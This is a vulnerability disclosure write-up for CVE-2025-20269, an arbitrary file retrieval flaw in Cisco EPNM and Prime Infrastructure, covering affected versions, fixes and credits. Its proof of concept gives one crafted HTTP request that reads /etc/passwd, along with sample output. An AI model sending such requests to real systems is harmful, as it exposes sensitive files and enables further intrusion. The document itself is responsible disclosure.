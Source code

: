 ```yaml
---
title:  "CVE-2025-20269: Cisco EPNM and Prime Infrastructure Arbitrary File Retrieval"
description: "CVE-2025-20269 is a vulnerability in the web-based management interface of Cisco Evolved Programmable Network Manager (EPNM) and Cisco Prime Infrastructure. It allows a remote, authenticated, low-privileged attacker to retrieve arbitrary files from the underlying file system by sending crafted HTTP requests. Cisco has released software updates to address the issue, and no workarounds are available."
authors: ["Paolo Grossetti, Matteo Piciarelli"]
date:   2025-08-26
tags: ["CVE", "Cisco", "EPNM", "Prime-Infrastructure", "File Disclosure", "POC"]
thumbnail:
  url: img/2025-08-27-CVE-2025-20269/cve-2025-20269.jpg
  author: Ideogram
  authorURL: https://ideogram.ai/
---
```


## Introduction
A vulnerability has been identified in the web-based management interface of **Cisco Evolved Programmable Network Manager (EPNM)** and **Cisco Prime Infrastructure**, which could allow a remote, authenticated, low-privileged attacker to retrieve arbitrary files from the underlying file system on an affected device.

This issue has been assigned **CVE-2025-20269**.

## Technical description

The vulnerability is caused by **insufficient input validation** of specific HTTP requests sent to the management web interface.  
An authenticated attacker could send specially crafted HTTP requests to read sensitive files from the affected device.

- **Type of vulnerability**: Arbitrary File Retrieval  
- **Authentication**: required (low-privileged user)  
- **Impact**: access to sensitive files on the system  
- **Workaround**: not available  
- **Patch**: released by Cisco

## CVSS Score

| Vulnerability  | CVSSv3.1  | Attack Vector |
| --- | --- | --- |
| Sensitive Information Disclosure | 6.5 | AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N/E:X/RL:X/RC:X |

## Affected products
- **Cisco EPNM**: all releases up to 8.0 included  
  - Fixed in: **8.1.1**  
- **Cisco Prime Infrastructure**: all releases up to 3.9 and 3.10  
  - Fixed in: **3.10.6 Security Update 02**

## Impact
A successful exploit could allow the attacker to gain access to **sensitive files** on the affected system.  
This access may compromise the **confidentiality** of data and provide information useful for further attacks.

## Proof of Concept (PoC)

### HTTP request
```text
GET /webacs/Download?svc=multipath&downloadZipFileName=logFiles&downloadFileListWithPath=/etc/passwd& HTTP/1.1
Host: 127.0.0.1
Cookie: JSESSIONID=...;


```

### Expected output

The response contains a ZIP file with the file specified in the request.

```
root:X:0:0:root:/root:/bin/bash
bin:X:1:1:bin:/bin:/sbin/nologin
daemon:X:2:2:daemon:/sbin:/sbin/nologin
adm:X:3:4:adm:/var/adm:/sbin/nologin
```

### Notes
- The vulnerability was discovered in Cisco EPNM 7.1.3
- An authenticated low-privileged user is required  

## Mitigations
Cisco has released software updates that fix this vulnerability. No workarounds exist.  
Administrators should upgrade to a non-vulnerable release, as indicated in the “Fixed Software” section of the official advisory.

## References
- [Cisco Security Advisory – cisco-sa-pi-epnm-TET4GxBX](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-pi-epnm-TET4GxBX) 
- [https://www.cve.org/CVERecord?id=CVE-2025-20269](https://www.cve.org/CVERecord?id=CVE-2025-20269)
- [CVE-2025-20269 – NVD entry](https://nvd.nist.gov/vuln/detail/CVE-2025-20269)

## Credits
Cisco thanks **Paolo Grossetti** and **Matteo Piciarelli** of Consulthink S.p.A. for responsibly reporting this vulnerability.
